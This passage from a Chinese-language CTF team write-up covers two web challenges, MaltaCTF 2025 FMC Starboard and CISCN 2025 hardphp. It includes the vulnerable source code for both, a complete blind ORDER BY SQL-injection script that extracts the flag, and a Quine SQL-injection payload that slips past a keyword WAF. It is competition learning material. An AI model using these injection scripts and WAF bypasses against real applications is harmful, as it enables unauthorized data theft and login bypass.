        # 读取刚写入的那段 hex
        r = sess.get(f"{BASE_URL}/api/message")
        hex_chunk = r.json()["message"]
        # hex_chunk 应该形如 "61626364"
        part = bytes.fromhex(hex_chunk).decode('ascii')
        chunks.append(part)
        print(f"segment {i+1}: '{part}'")
    # 拼回 32 字符的 hex 串
    full_hex = "".join(chunks)
    # 按 UUID 8-4-4-4-12 格式插入连字符
    uuid_str = (
        f"{full_hex[0:8]}-"
        f"{full_hex[8:12]}-"
        f"{full_hex[12:16]}-"
        f"{full_hex[16:20]}-"
        f"{full_hex[20:32]}"
    )
    return uuid_str
```


### （lq）MaltaCTF 2025 FMC Starboard

可以控制 order by star 后的语句，要想使得排序结果不同，可以考虑star\*0或star\*1，前者会导致返回原始顺序，后者会按照star进行排序。

```python
def index():
    order = request.args.get('order', 'DESC')
    if ';' in order or ',' in order:
        return jsonify({'error': 'bad char'})
    conn = get_conn()
    with conn.cursor(cursor_factory=RealDictCursor) as cur:
        cur.execute(f'SELECT * FROM posts ORDER BY stars {order} LIMIT 50')
        results = cur.fetchall()
    conn.close()
```

由于这里过滤了`;`和`,`，所以可以使用`SUBSTRING(string FROM position FOR 1)`来提取字符。

解题脚本：

```python
import requests
import urllib.parse
from bs4 import BeautifulSoup

TARGET_URL = 'https://fmc-starboard-0b2ca03e095f5e5a.instancer.challs.mt'
def solve():
    flag = ""
    position = 10
    while True:
        found_char_for_pos = False
        l, r = 32, 126
        while l <= r:
            mid = (l+r)//2
            sub_select = f"ASCII(SUBSTRING((SELECT flag FROM flag) FROM {position} FOR 1))>{mid}"
            payload = f"*(CASE WHEN ({sub_select}) THEN 0 ELSE 1 END)--"
            encoded_payload = urllib.parse.quote(payload)
            
            url = f"{TARGET_URL}/?order={encoded_payload}"
            try:
                response = requests.get(url, timeout=5)
                soup = BeautifulSoup(response.text, 'html.parser')
                first_post = soup.find_all('li')[0].get_text(strip=True)[0]
                if int(first_post) == 9:
                    l = mid + 1
                else:
                    r = mid - 1
            except Exception as e:
                pass
        flag += chr(l)
        print(f"[+] Flag found: {flag}")
        position += 1
        found_char_for_pos = True
        if not found_char_for_pos or flag.endswith('}'):
            print(f"Flag: {flag}")
            break
if __name__ == '__main__':
    solve()
```


### （Teru）CISCN 2025 总决赛 Day1 hardphp

```php
<?php

session_start();
include_once("lib.php");
function alertMes($mes,$url){
    die("<script>alert('{$mes}');location.href='{$url}';</script>");
}

function checkSql($s) {
    if(preg_match("/regexp|between|replace|=|>|<|and|\||right|left|reverse|update|extractvalue|floor|substr|&|;|\\\$|0x|sleep|benchmark|\ /i",$s)){
        alertMes('hacker', 'index.php');
    }
}

if (isset($_POST['username']) && $_POST['username'] != '' && isset($_POST['password']) && $_POST['password'] != '') {
    
    $username=$_POST['username'];
    $password=$_POST['password'];
    if ($username !== 'admin') {
        alertMes('only admin can login', 'index.php');
    }
    checkSql($password);
    $sql="SELECT password FROM users WHERE username='admin' and password='$password';";

    //echo($sql);
    $user_result=mysqli_query($con,$sql);
    $row = mysqli_fetch_array($user_result);
    //var_dump($row);
    if (!$row) {
        alertMes("something wrong",'index.php');
    } 
    //echo($row['password']);   
if ($row['password'] === $password) {
        $_SESSION['user']['islogin']=true;
        alertMes("login success!!",'admin.php');
    } else {
    alertMes("something wrong",'index.php');
  }
}

if(isset($_GET['source'])){
  show_source(__FILE__);
  die;
}
?>
```

一眼看到 `$row['password'] === $password`，100% 确定是 Quine 注入，但是 waf 里面过滤了 replace，非常讨厌。中英文互联网上都找不到解法，最后 teru 在 GitHub 的某个角落里找到了韩国人写的[一篇博客](https://github.com/seolaf/seolaf.github.io/blob/main/_posts/2024-12-10-ouroboros-golf.md?plain=1)，提到了使用 concat+子查询 实现 Quine。

[/doc/sql-BmR424GwhA#h-%E9%AB%98%E7%BA%A7%E6%8A%80%E5%B7%A7](/doc/sql-BmR424GwhA#h-%E9%AB%98%E7%BA%A7%E6%8A%80%E5%B7%A7)

Payload：

```none
'union/**/select/**/concat_ws(char(34),a,a,'a)a#')from(select"'union/**/select/**/concat_ws(char(34),a,a,'a)a#')from(select"a)a#
```


\